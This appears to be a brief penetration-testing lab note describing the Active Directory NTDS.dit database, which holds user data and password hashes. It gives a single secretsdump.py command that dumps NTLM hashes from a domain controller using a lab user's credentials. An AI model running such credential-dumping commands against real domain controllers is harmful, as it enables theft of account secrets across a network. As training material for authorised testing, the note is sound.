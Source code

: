## **NTDS.dit Overview**

### **What is it ?**

- A database used to store AD data. This data includes:
	- User information
	- Group information
	- Security descriptors
	- And oh yeah, password hashes


## **General Usage**

We can use the tool `secretsdump.py` to dump out the NTDS.dit secrets

```powershell
# secretsdump.py <domain/user>:'password'@DC-IP-ADDRESS -just-dc-ntlm
$ secretsdump.py MARVEL.local/hawkeye:'Password1@'@192.168.0.149 -just-dc-ntlm

```